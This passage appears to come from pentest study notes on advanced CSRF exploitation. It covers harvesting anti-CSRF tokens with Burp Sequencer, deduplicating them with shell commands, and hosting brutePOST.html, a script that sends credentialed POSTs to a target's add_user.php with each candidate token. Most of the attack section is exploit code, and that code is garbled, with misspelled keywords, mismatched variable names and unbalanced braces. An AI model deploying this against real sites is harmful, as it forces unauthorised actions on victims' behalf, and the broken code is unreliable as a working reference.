 ```js
</script>
```





Get token in browser

- document.getElementById('CSRFToken').value



### Advanced CSRF Exploitation - parte 2

- Send the token page in BURP to Sequencer
- Run the live test
- Save the tokens

in CMD:
```bash
sort <token file> // get rid of duplicates
sort <token file> | uniq -c //show the most common tokens
sort <token file> | uniq -c | nl 
sort <token file> | uniq > valid_tokens

cd /var/www
nano brutePOST.html
```

```js
<html>
<body>
  <textarea id="tokens" row="12" columns="60">
    <copy the valid tokens here>
  </textarea>

<script>
function XHRPost(tVal){
  var http = new XMLHttpRequest();
  var url = "target.site/add_user.php";
  var token = tVal;
  var params = "POST data from BURP" //edit the token in the data with the 'token' variable
  http.open("POST", url, true);
  http.withCredentials = "true";
  http.setRequestHeader("Content-Type", "content type from BURP");
  http.onreadystatechange = function(){
    if(http.readyState> 1){
      //For the SoP we dont care about response
      http.abort();

  }
  # Serialize the param object
  queryParams = Object.keys(params).reduce(functions(a,k){
    a.push(k + '=' + encodeURIComponent(params[k]));
    return a
    
  }, []).join('&');
  http.send(queryParams);
}
function bruteLoop(TList){
  For (var i=0; i<TList.length; i++){
    XHRPost(Tlist[i]);
  }
}


// Prepare the token list
```